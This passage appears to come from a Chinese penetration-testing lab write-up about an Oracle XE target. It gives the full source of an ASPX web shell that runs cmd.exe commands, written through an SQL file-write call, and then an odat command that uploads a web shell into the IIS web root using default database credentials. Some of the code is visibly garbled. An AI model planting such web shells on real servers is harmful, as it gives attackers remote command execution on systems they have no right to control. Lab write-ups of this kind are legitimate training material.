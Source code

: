 ```
SQL> exec utlwritefile('C:/inetpub/wwwroot', 'shell1.aspx', '<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Argumentsc "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><bodyasp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>');
```

![截图](48eee3829440340fdf5172f523589b39.png)

结果还是显示失败，原来是上传命令存在问题，可使用 dbmsxslprocessor 来进行上传

```
odat dbmsxslprocessor -s 10.10.10.82 -U scott -P tiger -d XE --putFile "C:\inetpub\wwwroot" "shell.aspx" "/usr/share/webshells/aspx/cmdasp.aspx" --sysdba
```

![截图](3cc4d2f5577e4ebd7e3060cef7943831.png)

成功访问木马文件

![截图](616a6fed4608fe9ce33dc7a4ef161328.png)

## 反弹shell
